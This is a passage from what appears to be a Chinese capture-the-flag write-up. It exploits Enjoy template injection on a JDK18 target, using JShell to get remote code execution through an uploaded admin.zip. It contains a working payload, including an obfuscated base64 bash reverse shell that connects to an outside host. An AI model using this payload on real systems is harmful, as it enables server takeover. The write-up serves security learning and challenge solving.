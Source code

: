 image.png

完整的做法如下：

-   • 编写一个 hello.html，内容为第一行所示，开启 Enjoy 模板的静态方法支持
    
-   • 因为题目为 JDK18，调用 JShell 执行命令不受 Module 限制
    
-   • 将 hello.html 和 upload.html 打包为 admin.zip
    

```bash
#(springMacroRequestContext.webApplicationContext.getBean('jfinalViewResolver').engine.setStaticMethodExpression(true))
#((jdk.jshell.JShell::create()).eval('Runtime.getRuntime().exec(new String("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzI5OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"));'))
zip admin.zip hello.html upload.html
```

![图片](assets/1701827499-1ca28fe30655d6339bba146e3fd44a7e.png "null")

image.png

上传 admin.zip

![图片](assets/1701827499-e0119760f2157032659dc0867948dad4.png "null")

image.png

访问/admin/hello 路由，开启 Enjoy 模板的静态方法支持

![图片](assets/1701827499-501afc266f2ba08e049206b47b0e3970.png "null")
